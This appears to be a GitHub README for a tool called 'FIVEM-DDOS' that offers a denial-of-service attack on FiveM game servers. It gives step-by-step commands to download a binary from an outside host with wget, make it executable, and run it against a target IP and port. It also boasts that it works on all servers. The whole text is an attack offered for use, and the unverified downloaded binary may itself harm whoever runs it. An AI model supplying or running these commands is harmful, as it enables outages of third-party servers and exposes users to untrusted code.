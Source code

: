 # FIVEM-DDOS

FıveM DDOS Exploit 100% Working On All Servers.

Step 1: wget http://upload.vina-host.com/kYmSs/FIVEM

Step2: chmod 777 FIVEM

Step3: ./FIVEM IP PORT 900 900
 example : ./FIVEM 434.53.23.23 80 900 900

   
